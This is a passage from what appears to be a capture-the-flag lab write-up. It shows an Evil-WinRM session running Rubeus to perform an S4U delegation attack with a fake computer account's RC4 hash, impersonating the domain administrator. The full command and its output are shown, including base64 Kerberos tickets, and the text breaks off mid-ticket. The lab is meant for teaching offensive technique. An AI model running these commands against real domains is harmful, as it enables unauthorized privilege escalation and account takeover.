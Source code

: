 I need the one labeled `rc4_hmac`, which I’ll pass to `Rubeus` to get a ticket for administrator:

```
*Evil-WinRM* PS C:\programdata> .\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4

[*] Action: S4U

[*] Using rc4_hmac hash: B1809AB221A7E1F4545BD9E24E49D5F4
[*] Building AS-REQ (w/ preauth) for: 'support.htb\0xdfFakeComputer$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFvjCCBbqgAwIBBaEDAgEWooIEzTCCBMlhggTFMIIEwaADAgEFoQ0bC1NVUFBPUlQuSFRCoiAwHqAD
      AgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0YqOCBIcwggSDoAMCARKhAwIBAqKCBHUEggRxOeKt6Ird
      teB+aO1v2heZp/GctaiPKQ3PL7uv6vECkSfrJZ96wZxhiTn96yEK0iBG6iu/lW45R67fkTiYVjrCwJ2x
      0Iv4AVbat5CjivLd2vBB3P8TMt/2yS3dFuDHxRxt43pJY/BCMq867ckAYrmVJZkV4J2Gr+bhLCrX0iEN
      9gX7iTMtKRrE9Pb6hZsu4CUpxMs8UpgJXI+kvKgE7EXwVTd5sIWNHjIu5Lvpuqk8jx98Zy11md6ZvcTc
      qbWis+ZIb/BSHdu35F4TtpMt48RZdeoXvrFcmYbzfzi3yVSZ8I3T50v2HdZj9GaGWknvCSUpGLsrW42P
      cfVBy3cvx9nfVTgNlF0mFMl1NOkf41HsixyBoJjLay2oxAJOmfZDGdjzA88rlx5Ox0z6Llj8RsmsJz6q
      59turK4Kaa7zUGxIMFhb+Snxb2YJm3HAVxdOsxnynQOpAWdOU8lztOaGiM9x6d0VADbvt0QJAjdJkFw4
      sbK6wQ8/Ptu02FCseBd2aUII0AAWFiWwrECPbGeHv/0tqP67Q8BhQNXF6QN7wGJQmLAz8f5a5KaX9Vo6
      2plegvVBrfxQ2SY5wN5xosvUC+U2MX636+8N68TRQca3nFGn3E7Du8sDwPUuK2m/POgWcP4UDixT0cXr
      PcnQOSc/FhukCBqLLMjdGgojyZoF5FHUwpDGfugZ4G0WcrLeZd/L4AhHw395gr3AeFCCawQ9XaUTjlOR
      oh2S3UJCZIizzk7Wiq320lYSFc2m0lMIPYr8i/70DAdlOUus6K2zArE2NnATqHKO6vAs7fy1p+KmF3B/
      6B1g6yr6D9aQo8xMP3qd3oyt4QslVlgqp+GBxh+cjWYv/rU6OFnGdtEa0xxLH/C1raCUXR6Rf1bEKn+t
      o49wwMt6qun7jcE3ugx/T09vU5Uwowit/X+qq3ePO3FDhxjPWHApbOW7wTU3f/kLo4fD6RGPaheYWOba
      BP88mxKCRhUy1hUtZ+kjamRCJD9QHXAj8RIoIrNMaEkpWI0Z7qw4RHwgPdY9vAqff1qkAhp5r5w+QC9y
      Y5JQx/gzruHzHXqYe7D1vADY1oiEQG7jsrbwY/i9I+qKn5BCFv7DXvjHpxWPKN/ndQnTnBbLwQb6ebh0
      CkH6GO4pDi7CpYVxdESomq3INLsrljYZuCafnJSqriyxw9d1ijpEosqzm6vLPbceDj41LVEquCkkaVsM
      pPdHPDGu0ojm+XmLaJGeSe2kNvoRd4htT9zux07Q/Mj8OF/gRxaQOEppIxh4YAKftSvWuU5jzzBtp9aq
      Ji+amwKGy5YfgrLPgIcWNMw93nZlcPBvM87WPFWuZ0vZq9eLwEa8+0rjnWAs2K7/kLWl0rYlt7fhSwcg
      lLKZn8OnFYHPLh2TcC6sXvxp6QGBj26CDZItT1iGukoG7EQ1poHRFRcsSPQyrRko5Z7naJy68tIZNu48
      H7mwyIdSySElDF1uTzq+IxB89wRZEKLw/0RXtOWD0M6RRDIhI0wrVv63PCwozFB+ieeLo4HcMIHZoAMC
      AQCigdEEgc59gcswgciggcUwgcIwgb+gGzAZoAMCARehEgQQ1yZNKdbgtnM3PxOJKOgHv6ENGwtTVVBQ
      T1JULkhUQqIeMBygAwIBAaEVMBMbETB4ZGZGYWtlQ29tcHV0ZXIkowcDBQBA4QAApREYDzIwMjIwNTI3
      MTkzODE3WqYRGA8yMDIyMDUyODA1MzgxN1qnERgPMjAyMjA2MDMxOTM4MTdaqA0bC1NVUFBPUlQuSFRC
      qSAwHqADAgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0Yg==


[*] Action: S4U

[*] Using domain controller: dc.support.htb (fe80::4995:178:63d7:93c1%6)
[*] Building S4U2self request for: '0xdfFakeComputer$@SUPPORT.HTB'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'administrator' to '0xdfFakeComputer$@SUPPORT.HTB'
[*] base64(ticket.kirbi):

      doIFtjCCBbKgAwIBBaEDAgEWooIEyzCCBMdhggTDMIIEv6ADAgEFoQ0bC1NVUFBPUlQuSFRCoh4wHKAD
      AgEBoRUwExsRMHhkZkZha2VDb21wdXRlciSjggSHMIIEg6ADAgEXoQMCAQGiggR1BIIEcZ6UqORuDjTI
      ovz9MkcGwxl8rVEyAFKXAVPrmN+iR2r8sUCOBmZS/ytvLBy6XGsg0GalPlL0IcINTxVrQbP1icxnroBo
      eLTqv3H901wMy7wS8cUgDBF54mAVlbucFvRq5TvGA+csHNjAV4b8RWhHbXlDkMRXZfTVmaQimnOzH103
      UvTuGuXKext8Z0STVMasbHm9FzP9vFL0d55G6vUO4nw29h4AoQ2o4Pi9+5Xm0zFnZaCx0yRYa8RFbBB6
      dcTEioS0aN1bnHG2WfuWVmJ6876loH+lV1oP8Rc9z9cN1lsSAEkDEK05RGBXbb6sWNNHPFVUDkcpcSg1
```